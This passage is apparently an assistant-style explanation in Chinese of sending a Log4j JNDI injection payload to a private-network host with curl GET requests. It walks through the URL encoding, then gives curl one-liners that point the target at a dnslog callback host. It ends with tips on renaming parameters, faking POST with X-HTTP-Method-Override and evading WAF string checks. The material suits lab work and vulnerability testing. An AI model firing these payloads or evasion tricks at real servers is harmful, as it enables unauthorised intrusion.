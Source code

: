 > - ```
>   payload=%24%7Bjndi%3Aldap%3A%2F%2Ftest.dnslog.cn%2Fexp%7D
>   ```
>
>   - `%24` → `$`
>   - `%7B` → `{`
>   - `%7D` → `}`
>   - `%3A` → `:`
>   - `%2F` → `/`
>
> 所以 `payload` 实际传递的内容仍然是：
>
> ```
> payload=${jndi:ldap://test.dnslog.cn/exp}
> ```
>
> ------
>
> **为什么这样做？**
>
> 1. **绕过 POST 限制**
>    - 目标服务器 **不支持 `POST`**（返回 `405 Method Not Allowed`）。
>    - 但 **支持 `GET`**，所以我们用 `GET` 请求携带 `payload`。
> 2. **URL 编码防止干扰**
>    - `--data-urlencode` 让 `curl` 自动对特殊字符（如 `{ } : /`）进行 URL 编码，防止被服务器拦截或误解。
> 3. **适用于 GET 方式传参的 Web 服务器**
>    - 一些服务器会直接把 `GET` 请求的 **查询参数** 作为日志处理，从而触发 Log4j 漏洞。
>
> ------
>
> **绕过 `GET` 过滤的进一步尝试**
>
> 如果服务器检查 `payload` 关键字，可以尝试：
>
> ```bash
> curl -G http://192.168.109.4:23480/hello --data-urlencode 'test=${jndi:ldap://test.dnslog.cn/exp}'
> ```
>
> - **把 `payload` 换成 `test`**
> - 有些服务器可能会记录所有参数，即使参数名不同
>
> 如果服务器限制了 `GET` 参数的格式，可以尝试：
>
> ```bash
> curl "http://192.168.109.4:23480/hello?payload=${jndi:ldap://test.dnslog.cn/exp}"
> ```
>
> - 直接拼接参数，而不使用 `--data-urlencode`
>
> ------
>
> **总结**
>
> - `-G` 让 `curl` 发送 **GET 请求**
> - `--data-urlencode` **URL 编码参数**，防止解析出错
> - 适用于 **Log4j 漏洞利用**，服务器日志如果记录 `GET` 参数，就可能触发漏洞
>
> 如果目标系统仍然没有回显，你可能需要：
>
> - 换一个参数名，如 `p=`、`q=`、`test=`
> - 使用 `X-HTTP-Method-Override` 伪造 `POST`
> - 观察服务器是否有 WAF，尝试绕过字符串检测
